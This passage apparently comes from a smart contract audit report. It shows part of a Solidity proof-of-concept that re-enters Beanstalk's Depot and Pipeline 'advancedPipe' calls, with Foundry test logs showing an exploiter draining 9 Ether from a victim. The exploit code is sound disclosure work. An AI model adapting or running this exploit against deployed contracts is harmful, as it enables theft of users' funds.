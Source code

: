 ```solidity
        if (!exploited) {
            exploited = true;
            console.log("exploiting depot facet advanced pipe");
            IBeanstalk(BEANSTALK).advancedPipe(new AdvancedPipeCall[](0), 0);
            console.log("exploiting pipeline advanced pipe");
            AdvancedPipeCall[] memory pipes = new AdvancedPipeCall[](1);
            pipes[0] = AdvancedPipeCall(address(exploiter1), "", abi.encodePacked(bytes1(0x00), bytes1(0x01), uint256(PIPELINE.balance)));
            IPipeline(PIPELINE).advancedPipe(pipes);
        }
    }
}

```
As can be seen in the output below, the exploiter is able to net 9 additional Ether at the expense of the victim:
```
Running 1 test for test/DepotFacetPoC.t.sol:DepotFacetPoC
[PASS] test_attack() (gas: 182190)
Logs:
  exploiter1:  0xDE47CfF686C37d501AF50c705a81a48E16606F08
  Victim balance before: : 10000000000000000000
  BEANSTALK balance before: : 0
  PIPELINE balance before: : 0
  DummyNFT balance before: : 0
  Exploiter balance before: : 0
  Exploiter1 balance before: : 0
  entered pipeline advanced pipe
  msg.value:  4000000000000000000
  minting/transferring NFT
  sending royalties
  entered exploiter fallback
  Beanstalk balance:  6000000000000000000
  Pipeline balance:  3000000000000000000
  Exploiter balance:  100000000000000000
  exploiting depot facet advanced pipe
  entered pipeline advanced pipe
  msg.value:  0
  entered exploiter fallback
  Beanstalk balance:  0
  Pipeline balance:  3000000000000000000
  Exploiter balance:  6100000000000000000
  exploiting pipeline advanced pipe
  entered pipeline advanced pipe
  msg.value:  0
  Victim balance after: : 0
  BEANSTALK balance after: : 0
  PIPELINE balance after: : 0
  DummyNFT balance after: : 900000000000000000
  Exploiter balance after: : 6100000000000000000
  Exploiter1 balance after: : 3000000000000000000
```
